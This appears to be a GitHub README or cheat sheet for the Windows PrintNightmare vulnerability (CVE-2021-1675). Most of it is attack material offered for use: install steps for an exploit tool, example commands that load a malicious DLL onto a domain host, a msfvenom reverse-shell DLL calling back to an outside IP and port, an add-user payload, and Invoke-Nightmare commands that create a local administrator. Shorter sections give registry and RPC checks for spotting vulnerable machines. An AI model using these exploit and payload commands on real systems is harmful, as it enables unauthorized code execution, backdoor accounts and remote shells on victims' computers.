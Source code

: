 # Remote Detection
When running:
```bash
rpcdump.py @<VICTIM_IP> | egrep 'MS-RPRN|MS-PAR'
```

*if the computer is vulnerable,* the output should be:
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

# [RCE](https://github.com/cube0x0/CVE-2021-1675)

## Installation
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## usage
```
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```
## Example
```bash
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

## DLL payloads
### reverse shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f dll > rev.dll
```
### adduser payload
```
msfvenom -p windows/adduser USER=<USERNAME> PASS=<PASSWORD_MATCHING_COPLEXITY>
```

# Local Detection
When runnnig:
```shell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
```
*if the computer is vulnerable,* the output should be:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

*Also,* the print spooler service should running
```shell
gsv spooler
```

# [LPE](https://github.com/calebstewart/CVE-2021-1675)
## Usage (Creating Local Admin)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DriverName "<ANY_NAME>" -NewUser "<USERNAME>" -NewPassword "<PASSWORD_MATCHING_COPLEXITY>"
```
## Usage (Custom DLL)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "<FULL\PATH\TO\DLL>"
```